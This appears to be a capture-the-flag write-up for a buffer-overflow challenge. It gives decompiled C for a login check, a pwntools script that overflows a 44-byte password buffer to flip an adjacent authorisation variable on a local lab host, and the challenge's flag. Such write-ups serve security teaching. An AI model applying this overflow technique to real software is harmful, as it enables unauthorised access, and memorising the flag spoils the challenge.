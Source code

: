 ```yaml
---
ai_date: '2025-04-27 05:25:32'
ai_summary: Overflow exploit using buffer overflow in scanf input for 'password'
ai_tags:
- buffer-overflow
- overflow
- x86
created: 2025-03-01T22:17
points: 100
solves: 16
updated: 2025-03-18T02:29
---
```


Well, `passw0rd` didn't work.

But... if we look closely, `s1` has length of 44 while `scanf` takes in 64 characters.

We can overflow it.

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s1[44]; // [rsp+0h] [rbp-30h] BYREF
  int v5; // [rsp+2Ch] [rbp-4h]

  puts(">>        * * * Login * * *        <<");
  v5 = 0;
  printf("Enter the password: ");
  __isoc99_scanf("%64[^\n]", s1);
  if ( !strcmp(s1, "passw0rd") )
    v5 = 1;
  if ( v5 )
  {
    puts("The password is right!");
    sub_4011F6();
  }
  else
  {
    puts("Wrong password.");
  }
  puts(">>        * * *  Bye  * * *        <<");
  return 0LL;
}
```

```python
# http://127.0.0.1:57254/
from pwn import *
r = remote('127.0.0.1', 57254)
payload = b"A" * 44
payload += p32(1)
r.sendlineafter(b'Enter the password: ', payload)
r.interactive()
```

```flag
ATHACKCTF{seee_d0uble_y0u_eee_0ne_twenty}
```